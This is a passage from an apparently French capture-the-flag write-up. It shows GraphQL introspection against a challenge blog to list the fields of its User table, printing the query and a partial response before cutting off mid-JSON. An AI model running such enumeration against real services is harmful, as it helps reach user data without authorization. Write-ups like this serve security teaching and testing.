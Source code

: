 ![BlogPost vide](/img/Nuclea_post_vide.png)

Pas d'inquiétude à avoir, en fait l'affichage est traité en js et le retour de notre requête n'est pas celui attendu. Donc on a juste à ouvrir les sources de la page.

![Source du blogpost](/img/Nuclea_injection_viewsource.jpg)

On voit bien la table __BlogPost__ qui sert à la requête de base, mais nous on va s'intéresser à la ble __User__.

Nos requêtes sont les suivantes :

## Trouver les colonnes

```GraphQL
{ __type(name: "User") { name fields { name type { name kind } } } }
```

Ici on récupère en plus les types de chaques colonnes

```GraphQL
{"__type":
	{ 
	"name":"User",
	"fields":
		[
			{
			"name":"_id",
			"type":
				{
				"name":"String",
				"kind":"SCALAR"
				}
			},
			{
			"name":"username",
			"type":
				{
				"name":"String",
				"kind":"SCALAR"
```